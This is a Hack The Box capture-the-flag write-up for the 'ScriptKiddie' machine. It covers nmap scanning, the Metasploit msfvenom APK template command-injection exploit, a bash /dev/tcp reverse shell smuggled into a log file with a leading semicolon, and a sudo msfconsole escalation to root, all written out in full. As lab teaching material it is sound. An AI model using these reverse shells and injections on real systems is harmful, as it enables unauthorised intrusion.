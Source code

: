 # ScriptKiddie
![banner](src/banner.png)

|Topics               |Details              |
|:--------------------|:--------------------|
| Creator             | [0xdf](https://app.hackthebox.eu/profile/4935)|
| Enumeration         | Slightly required   |
| Scripting           | Not required        |
| Custom Exploitation | Not required        |
| Real Life           | Nope                |

## My thoughts on the box
This box is obviously for beginners; simple steps, you don't need to have advanced skills. I enjoyed solving it, thanks to 0xdf.

BTW (Not Arch XD) this is my first writeup I hope it helps you. 
Constructive feedback is appreciated.

[My Hack The Box profile](https://app.hackthebox.eu/profile/184235)
## Reconnaissance
I started with nmap: ``nmap -sS -sC -sV 10.10.10.226``

![nmap](src/nmap.png)

As you can see here we have two ports open. We can't hack it from it's ssh in this case, let's go with port 5000 which runs an http server through python.

We see a site that runs `nmap` and `msfvenom`, let's check if it is running properly.

![site](src/site.png)

It is working well in nmap. I also noticed something interesting in the site, a "`template file`" was required to generate reverse tcp `payloads`.

Googling it up gives us more interesting things XD

![site](src/search.png)

https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/

## Exploiting and getting a shell
So we have an msf module that creates a malicious apk file, which will be using in tcp/5000's msfvenom payload generator and expected to give us a reverse shell. Worth to try..

Let's first create our fellow template by using these commands:
```
msfconsole
use exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection
set lhost tun0 #Your VPN ip address
set lport 2121
run
```
![msfapk](src/msfapk.png)

We got a malicious template file, we just need to move it to our working directory and set a netcat listener.
```bash
mv /root/.msf4/local/msf.apk .
nc -lvnp 2121
```
![nc](src/nc.png)

Last but not least, go to http://10.10.10.226:5000 and generate a payload using our malicious template file as shown below.

![payloadapkset](src/payloadapkset.png)

**Boom, we got a reverse shell as the user kid!!** (Don't forget to get your user flag XD)

![payloadapkset](src/gotusershell.png)


## Privelege escalation to pwn user
After a really basic enumeration, I noticed an interesting executable in /home/pwn

![payloadapkset](src/nmapaspwn.png)

As I understand so far from the code, what we put inside ``/home/kid/logs/hackers`` is executed as pwn user. Now we're going to put a reverse shell in it and get a shell as **pwn** user.

Let's first set a nc listener on another port:
```
nc -lvnp 4040
```

Now we can put a reverse shell syntax inside the `hackers` file. But here the thing is: I was not able to just get a reverse shell using just ``bash tcp`` reverse shell, so I customized the syntax a bit.

Don't forget to change the ip address.

```bash
echo "  ;bash -c '0<&196;exec 196<>/dev/tcp/YOURIPHERE/2121; sh <&196 >&196 2>&196' # " > /home/kide/logs/hackers
```

![gotshellaspwn](src/gotshellaspwn.png)

**BOOM, we got another reverse shell as pwn user!!**

## Privilege escalation to root
Before doing any enumeration, let's check fi we can use ``sudo -l`` passwordless.

![sudo-l](src/sudo-l.png)

This is so funny :P Just run msfconsole with sudo privileges to become root XD
```bash
sudo /opt/metasploit-framework-6.0.9/msfconsole
/bin/bash
```
![root](src/root.png)

***And we sucessfully pwned the machine..***

![pwned](/src/gifs/pwned.gif)

## Closing
[Click](https://app.hackthebox.eu/profile/184235) to give me respect on Hack The Box.

Thanks for reading, see you on another .md file ..

Resources:
```
https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/
```

***Written by f4T1H***
